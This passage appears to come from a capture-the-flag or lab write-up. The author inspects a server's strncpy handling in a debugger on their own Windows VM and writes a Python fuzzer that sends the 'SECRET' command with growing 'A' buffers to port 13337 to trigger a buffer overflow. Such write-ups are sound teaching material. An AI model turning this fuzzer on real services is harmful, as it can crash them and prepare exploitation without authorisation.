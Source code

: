 
Now that I know that the server is accessible from my machine, I dig deeper into the code that handles the data sent to the server and at first glance the server seems to be using secure functions (strncpy) in copying data and stuff but, luckily there is a small problem with these functions that can still cause problems. Upon reaching the buffer limit, if a terminating character is not placed in the last byte of the buffer it can cause problems when the program tries to read from the buffer. So, to test this theory I start the server on my Windows VM and attach it to ImmunityDebugger (File -> Attach). 

![5](/assets/images/Crashed/5.png)

 Next, I wrote a simple Python script to fuzz the server and see If I can trigger a buffer overflow on the server
```py
import sys,socket
from time import sleep

buffer = "A"*100
while True:
        try:
                s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                s.connect(('192.168.1.68', 13337))
                s.send(("SECRET" + buffer))
                s.close()
                sleep(1)
                buffer += "A"*100
        except:
                print("Fuzzing crashed at " + str(len(buffer)) + " Bytes!")
                sys.exit()
```         

The script is programmed to connect to my Windows VM on port 13337 and start sending the command `SECRET`{:style="color:orange"} (I knew about the `SECRET`{:style="color:orange"} command from disassembling the server in IDA) Along side some dummy data and see if I can crash the server at some point... I run the script and wait for something to happen in ImmunityDebugger and after a few seconds I find the following.
